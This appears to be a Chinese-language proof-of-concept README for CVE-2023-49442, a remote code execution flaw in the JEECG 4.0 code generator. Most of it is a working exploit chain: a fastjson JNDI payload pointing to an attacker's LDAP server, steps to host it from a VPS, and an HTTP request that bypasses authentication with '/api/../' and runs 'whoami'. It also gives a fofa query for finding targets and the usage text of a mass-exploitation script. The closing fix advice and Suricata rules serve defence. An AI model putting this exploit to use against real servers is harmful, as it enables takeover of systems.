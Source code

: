 ### 产品简介  
Jeecg( Code  Generation) 是开源的代码生成平台，目前官方已停止维护。  

### 漏洞概述  
Jeecg4.0及之前版本中，由于/api 接口鉴权时未过滤路径遍历，攻击者可构造包含../ 的url绕过鉴权。并且内部有使用fastjson1.2.31漏洞版本，攻击者可构造恶意请求利用jeecgFormDemoController.do?interfaceTest 接口进行jndi注入攻击实现远程代码执行，获取服务器权限。  

### 指纹识别  
fofa: app="JEECG"  

### 漏洞利用  
首先在VPS上利用JNDIExploit-1.4-SNAPSHOT.jar进行监听（https://github.com/WhiteHSBG/JNDIExploit）  
将以下内容保存到jeecg.txt，并使用Python开启WEB服务  
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xxxxxx:1389/Basic/TomcatEcho",
        "autoCommit":true
    }m
}
```
python3 -m http.server 8080  
之后对目标使用如下poc进行测试，当响应体中存在命令执行结果即利用成功。  
```
poc:
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Cmd: whoami

serverUrl=http://xxxxxxx:8080/jeecg.txt&requestBody=1&requestMethod=GET
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/CVE-2023-49442/1.png)
![Image text](https://github.com/YUUKI4O4/POC/blob/main/CVE-2023-49442/2.png)

### 测试和利用脚本  
```
python3 CVE-2023-49442.py -h
usage: CVE-2023-49442.py [-h] [-t] [-c FILE] [-r FILE URL] [-u URL URL]

### JEECG jeecgFormDemoController Interface Code Execution Vulnerability(CVE-2023-49442) ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -c FILE, --check FILE
                        Perform check testing. e.g:python CVE-2023-49442.py -c ./url.txt
  -r FILE URL, --exp FILE URL
                        Vulnerability exploitation. e.g:python CVE-2023-49442.py -r ./maybe_url.txt
                        http://VPS/jeecg.txt
  -u URL URL, --url URL URL
                        Vulnerability exploitation. e.g:python CVE-2023-49442.py -r http://target
                        http://VPS/jeecg.txt
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  
4、官方已停止维护，建议使用 org.jeecgframework.boot:jeecg-boot-parent 组件替换.  

### Suricata rules  
```
alert http any any -> any any (msg:"JEECG jeecgFormDemoController Interface Code Execution Vulnerability(CVE-2023-49442) #1 Vulnerability detection"; flow:established,to_server; flowbits:set,jeecgFormDemoController; content:"get";http_method;nocase; content:"/api/../jeecgFormDemoController.do?interfaceTest=";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/CVE-2023-49442; reference:cve,CVE-2023-49442; classtype:CVE; metadata:created_at 2024-01-26,updated_at 2024-01-26,creater:YUUKI4O4; sid:21; rev:1;)
alert http any any -> any any (msg:"JEECG jeecgFormDemoController Interface Code Execution Vulnerability(CVE-2023-49442) #2 Vulnerability exploitation"; flow:established,to_server; flowbits:set,jeecgFormDemoController; content:"post";http_method;nocase; content:"/api/../jeecgFormDemoController.do?interfaceTest=";http_uri;fast_pattern;nocase; content:"serverUrl=";nocase;http_client_body; content:"requestBody=";nocase;http_client_body; content:"requestMethod=GET";nocase;http_client_body; pcre:"/serverUrl=http[^&]+?&/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/CVE-2023-49442; reference:cve,CVE-2023-49442; classtype:CVE; metadata:created_at 2024-01-26,updated_at 2024-01-26,creater:YUUKI4O4; sid:22; rev:1;)
alert http any any -> any any (msg:"JEECG jeecgFormDemoController Interface Code Execution Vulnerability(CVE-2023-49442) #3 Possible success"; flow:established,from_server; flowbits:isset,jeecgFormDemoController; content:"200";http_stat_code; content:"jsonStr";http_server_body;nocase; content:"msg";http_server_body;nocase; content:"{";http_server_body;nocase; content:"obj";http_server_body;nocase; content:"attributes";http_server_body;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/CVE-2023-49442; reference:cve,CVE-2023-49442; classtype:CVE; metadata:created_at 2024-01-26,updated_at 2024-01-26,creater:YUUKI4O4; sid:23; rev:1;)
```
